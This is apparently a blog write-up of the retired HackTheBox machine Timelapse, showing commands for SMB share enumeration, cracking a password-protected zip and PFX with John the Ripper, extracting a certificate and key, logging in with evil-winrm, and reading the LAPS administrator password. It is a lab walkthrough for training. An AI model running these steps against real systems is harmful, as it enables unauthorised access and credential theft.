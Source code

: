 ```yaml
---
layout: post
title: Timelapse
date: 2025-06-22 00:34:00 +0800
categories: [HackTheBox, Easy]
tags: [SMB, Zip Cracking, JohnTheRipper, PFX Cracking, WinRM, PowerShell History, LAPS Abuse, Privilege Escalation]
author: klein
image:
  path: /images/images-timelapse/image_19.png
  
---
```


Since this is a retired machine, the Guided mode is available when progressing through the box. In some cases, I prefer this approach to solving a retired machine, as it demonstrates how it was intended to be used and teaches more effectively.

###### What is the common name on TLS/SSL certificate returned from one of the open TCP ports on Timelapse?

One way of finding this out is by taking a look at the Nmap scan results.

```bash
nmap -sC -sV -vv -oN timelapse 10.129.227.113
```

![b](/images/images-timelapse/image_01.png)

###### What TCP port is SMB running on?

![b](/images/images-timelapse/image_02.png)

An easy one to answer.

###### What tool from the John The Ripper tool suite can be used to generate a hash that can be used by John The Ripper from a password-protected zip file in a format ?

With a little bit of Google Dorking, this can easily be found out.

![b](/images/images-timelapse/image_03.png)

![b](/images/images-timelapse/image_04.png)

###### What tool from the John The Ripper tool suite can be used to generate a hash that can be used by John The Ripper from a pfx file?

This question can be answered based on the previous tool, the solution is pfx2john.

###### What is the default port for the Windows Remote Management or WinRM service over HTTP (not HTTPS)?

This can also be easily answered with a Google search.

![b](/images/images-timelapse/image_05.png)

###### Using Evil-WinRM, the -c flag will allow the user to provide a certificate. What flag can be used to provide a private key?

![b](/images/images-timelapse/image_06.png)

###### Submit the flag located on the legacyy user's desktop.

This is where all the previously answered questions come together.

We can list the available shares on the target machine with the following command:

```bash
nxc smb 10.129.227.113 -u '.' -p '' --shares
```

![b](/images/images-timelapse/image_07.png)

Let's connect to the 'Shares' one.

```bash
smbclient -U '.' //10.129.227.113/Shares
```

Let's download the .zip file from the share.

![b](/images/images-timelapse/image_08.png)

Let's use zip2john to extract the hash and crack it.

```bash
zip2john winrm_backup.zip > zip_hash
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash
```

The password will be: 

![b](/images/images-timelapse/image_09.png)

Let's unzip the file. This is going to leave us with a .pfx file. By doing to same process as before we can extract and crack the hash to get to the certificate and private key that is going to grant access to the box.

```bash
pfx2john legacyy_dev_auth.pfx > pfx_hash
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt pfx_hash
```

The password will be:

![b](/images/images-timelapse/image_10.png)

Now we can extract the certificate and the private key. I like to use the command line way of doing this rather than copy pasting because it eliminates the chance of leaving a blank enter or something that could interfere with the usage of the cert/key later on.

To get the private key
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

To get the public key
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert -nodes
```

Because this was the SSL version of WinRM, you will have to provide the -S flag in order to connect.

```bash
evil-winrm -S -i 10.129.227.113 -c key.cert -k key.pem
```

By the way, I did not include in the screenshots, but there were other files on the SMB share. Those were LAPS documentation files, on a CTF I like to download the file, get its MD5sum hash, and put it into Virustotal. This way it gives a clue if it's something modified (meaning it needs further attention) or the original documentation files made by Microsoft.

```bash
md5sum filename 
```

Now we have a shell on the box and have the privileges to submit the user flag.

![b](/images/images-timelapse/image_11.png)

###### What is the full path used to read PowerShell history file, starting from $env:?

This can also be found with the help of Google. I used the post that 0xdf wrote previously.

![b](/images/images-timelapse/image_12.png)

https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html


###### What user's password can be found in that PowerShell history file?

![b](/images/images-timelapse/image_13.png)


###### What non-standard group is svc_deploy a part of?

Let's use the following command to find out about this information:

```bash
net user svc_deploy
```

![b](/images/images-timelapse/image_14.png)


###### What is the acronym LAPS short for?

This can easily be found with a Google search:

![b](/images/images-timelapse/image_15.png)

###### What is the name of the property on an active directory computer object that contains the LAPS-generated password for the administrator account?

As usual, a Google search definitely gives an answer to this question, as well.

![b](/images/images-timelapse/image_16.png)


###### Submit the flag located on the TRX user's desktop.

To do this I read the LAPS-generated password that belongs to the local administrator. To do that I used to following command that can be found in this article.

https://www.powershellgallery.com/packages/Get-ADComputers-LAPS-Password/2.0/Content/Get-ADComputers-LAPS-Password.ps1

Also, first I connected to the machine with the newly found creds.

```bash
evil-winrm -S -i 10.129.227.113 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

```bash
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *
```
![b](/images/images-timelapse/image_17.png)

With this password, let's connect to the Administrator account.

![b](/images/images-timelapse/image_18.png)

From here just go the the TRX user's Desktop and submit the root flag as well.